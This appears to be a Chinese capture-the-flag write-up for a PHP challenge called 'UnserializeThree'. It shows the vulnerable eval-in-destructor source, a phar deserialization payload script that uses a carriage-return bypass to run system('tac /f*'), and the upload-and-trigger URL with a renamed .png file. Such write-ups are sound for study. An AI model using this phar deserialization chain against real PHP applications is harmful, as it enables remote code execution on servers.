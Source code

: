 ### UnserializeThree

源代码

```php
<?php
highlight_file(__FILE__);
class Evil{
    public $cmd;
    public function __destruct()
    {
        if(!preg_match("/>|<|\?|php|".urldecode("%0a")."/i",$this->cmd)){
            //Same point ,can you bypass me again?
            eval("#".$this->cmd);
        }else{
            echo "No!";
        }
    }
}

file_exists($_GET['file']); 
```

还有一个上传页面

> file_exists — 检查文件或目录是否存在
>
> file_exists()函数可触发 phar反序列化

换行符被过滤了，还可以用回车符%0d

payload

```php
<?php
class Evil{
    public $cmd;
}

$e = new Evil();
$e->cmd = urldecode("%0d").'system("tac /f*");';
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($e);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```

主要修改的就是setMetadata的内容

上传时，发现phar后缀不能上传，修改成png后缀，其实修改成什么都无所谓

```
?file=phar://upload/ed54ee58cd01e120e27939fe4a64fa92.png
```
